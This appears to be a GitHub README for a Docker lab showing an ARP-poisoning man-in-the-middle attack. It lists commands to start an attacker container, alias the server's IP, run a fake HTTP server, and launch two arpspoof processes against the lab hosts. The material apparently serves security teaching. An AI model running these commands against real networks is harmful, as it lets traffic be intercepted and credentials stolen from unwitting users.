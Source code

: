 # ARP Poisoning MITM using Docker containers 

## 1. Start the Containers

```bash
(sudo) docker compose up
```

---

## 2. Enter as the attacker (you will need multiple sessions)

```bash
sudo docker exec -it attacker bash
```

---

## 3. Add Server IP Alias

```bash
ip addr add 192.168.90.100/32 dev eth0
```

---

## 4. Launch the Fake HTTP Server

```bash
python3 fakeserver.py
```

---

## 5. Start ARP Poisoning

Run two `arpspoof` processes:

```bash
arpspoof -i eth0 -t 192.168.90.101 192.168.90.100 
arpspoof -i eth0 -t 192.168.90.100 192.168.90.101 
```
